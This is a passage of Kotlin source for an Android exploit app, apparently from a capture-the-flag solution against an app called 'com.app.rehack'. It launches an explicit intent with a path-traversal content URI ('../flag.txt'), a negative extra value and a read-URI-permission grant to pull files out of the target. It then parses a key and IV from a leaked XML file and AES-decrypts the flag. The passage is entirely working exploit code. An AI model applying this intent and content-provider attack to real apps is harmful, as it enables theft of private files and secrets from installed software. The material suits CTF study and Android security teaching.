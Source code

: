 ```kotlin

                        startForResult.launch(intent)

                        val intent2 = Intent().apply {
                            setClassName(
                                "com.app.rehack",
                                "com.app.rehack.AddNoteActivity"
                            )
                            setData(Uri.parse("content://com.app.rehack/../flag.txt"))
                            putExtra("total_notes", -1)
                            flags = Intent.FLAG_GRANT_READ_URI_PERMISSION
                        }

                        startForResult2.launch(intent2)
                    }

                    Column(modifier = Modifier.padding(innerPadding)) {
                        Text(text = "Android")
                        Text(text = "env content: ${env1.value ?: "Loading..."}")
                        Text(text = "flag content: ${flag.value ?: "Loading..."}")
                        env1.value?.let { xml ->
                            flag.value?.let { text ->
                                val (key, iv) = extractKeyIv(xml)
                                val decryptedText = aesDecryptRawInput(text, key, iv)
                                Text("final flag: $decryptedText")
                            }
                        }
                    }
                }
            }
        }
    }
}

fun extractKeyIv(xml: String): Pair<String, String> {
    val doc = DocumentBuilderFactory.newInstance().newDocumentBuilder().parse(xml.byteInputStream())
    val root = doc.documentElement
    val key = root.getElementsByTagName("key").item(0).textContent.trim()
    val iv  = root.getElementsByTagName("iv").item(0).textContent.trim()
    return key to iv
}

fun aesDecryptRawInput(ciphertext: ByteArray, key: String, iv: String): String {
    val cipher = Cipher.getInstance("AES/CBC/PKCS5Padding")
    val secretKey = SecretKeySpec(key.toByteArray(Charsets.UTF_8), "AES")
    val ivSpec = IvParameterSpec(iv.toByteArray(Charsets.UTF_8))
    cipher.init(Cipher.DECRYPT_MODE, secretKey, ivSpec)

    val decryptedBytes = cipher.doFinal(ciphertext)
    return String(decryptedBytes, Charsets.UTF_8)
}
```
